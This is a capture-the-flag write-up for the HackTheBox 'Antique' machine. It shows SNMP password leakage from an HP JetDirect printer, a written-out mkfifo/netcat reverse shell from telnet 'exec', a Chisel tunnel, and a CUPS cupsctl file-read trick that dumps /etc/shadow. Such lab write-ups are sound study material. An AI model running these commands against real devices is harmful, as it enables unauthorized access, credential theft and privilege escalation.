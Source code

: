 ```yaml
---
title: Antique
tags:
  - HackTheBox
  - Easy
  - Linux
  - Printer_Hacking
  - Telnet
  - SNMP
  - Tunnelling
  - CUPS
---
```

![](Pasted%20image%2020241123232115.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.107 antique.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- antique.htb > sC.txt

[redacted]
PORT   STATE SERVICE
23/tcp open  telnet
```

So I connected via telnet to the machine, but unfortunately, it required password:

```shell
telnet antique.htb 23

[redacted]
Connected to antique.htb.
Escape character is '^]'.

HP JetDirect
```

Now we know that there is an HP JetDirect printer running.

So I decided to run another Nmap scan, but UDP this time (I just scanned top 10 ports because this type of scan is not very reliable):

```shell
nmap -sU --top-ports=10 antique.htb

[redacted]
PORT     STATE         SERVICE
53/udp   open|filtered domain
67/udp   closed        dhcps
123/udp  open|filtered ntp
135/udp  closed        msrpc
137/udp  closed        netbios-ns
138/udp  closed        netbios-dgm
161/udp  open          snmp
445/udp  closed        microsoft-ds
631/udp  closed        ipp
1434/udp open|filtered ms-sql-m
```

Then I performed a more detailed one on port `161`:

```shell
nmap -sUV -p161 antique.htb > 161.txt

[redacted]
PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server (public)
```

## Weaponization

Apart from [Hacktricks notes](https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp) I discovered this forum about [Network printer hacking](https://www.irongeek.com/i.php?page=security/networkprinterhacking)

## Exploitation

So I performed the following command to get the JetDirect password using the SNMP vulnerability:

```shell
snmpget -v 1 -c public antique.htb .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

We have to notice the BITS part and decode it from Hex (e.g. with Cyberchef):

```python
50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
# Decoded from hex
P@ssw0rd@123!!123"#%&'01345789BCIPQTWXaetuy 
# The password is just
P@ssw0rd@123!!123
```

> I got access :D

![](Pasted%20image%2020241123235442.png)

Now I executed the help command:

```shell
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```

I noticed this command:

```shell
exec: execute system commands (exec id)
# I tried to execute a command
exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
```

So I can try to get a reverse shell from here:

```shell
exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.25 666 >/tmp/f
```

> Got it!

![](Pasted%20image%2020241123235939.png)

I can now read the user flag:

![](Pasted%20image%2020241124000131.png)

## Privilege Escalation

I performed some enumeration around the machine, and discovered something running on port 631:

```shell
netstat -ant
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN     
tcp        0      0 10.10.11.107:23         10.10.14.25:56774       ESTABLISHED
tcp        0      2 10.10.11.107:46940      10.10.14.25:666         ESTABLISHED
tcp6       0      0 ::1:631                 :::*                    LISTEN 
```

If we perform a curl request, it returns a webpage:

```shell
curl 127.0.0.1:631

[redacted]
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<HTML>
<HEAD>
        <META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=utf-8">
        <TITLE>Home - CUPS 1.6.1</TITLE>
        <LINK REL="STYLESHEET" TYPE="text/css" HREF="/cups.css">
        <LINK REL="SHORTCUT ICON" HREF="/images/cups-icon.png" TYPE="image/png">
</HEAD>
<BODY>
<TABLE CLASS="page" SUMMARY="{title}">
<TR><TD CLASS="body">
<TABLE BORDER="0" CELLPADDING="0" CELLSPACING="0" SUMMARY="">
<TR HEIGHT="36">
[redacted]
```

Now, to perform the tunnelling I need to download [Chisel](https://github.com/jpillora/chisel) on my machine and upload it to the printer:

```shell
wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz
gunzip chisel_1.10.1_linux_amd64.gz
# Now create a python server and upload it to the machine
```

Now on my machine I executed the following command:

```shell
./chisel_1.10.1_linux_amd64 server -p 7000 --reverse 
```

And then on the printer I run:

```shell
chmod +x chisel_1.10.1_linux_amd64
./chisel_1.10.1_linux_amd64 client 10.10.14.25:7000 R:7631:localhost:631
```

![](Pasted%20image%2020241124001852.png)

Now I can visit `http://localhost:7631` and see what the page looks like:

![](Pasted%20image%2020241124002023.png)

Searching for "*CUPS 1.6.1 exploit*" I dealed with [CUPS root file read exploit](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/multi/escalate/cups_root_file_read.rb). Although it's a Metasploit exploit, I decided to check for what was actually doing:

```ruby
cmd_exec("#{ctl_path} ErrorLog=#{datastore['FILE']}")
# Then check
file = strip_http_headers(get_request('/admin/log/error_log'))
```

Basically you can use `cupsctl` to send the content of any file to an error log, like:

```shell
cupsctl ErrorLog=/etc/shadow
# The check it using curl
curl -S http://localhost:631/admin/log/error_log

[redacted]
root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
```

So we can now read any file in the system :D So I read root flag:

![](Pasted%20image%2020241124003125.png)

==Machine pwned!==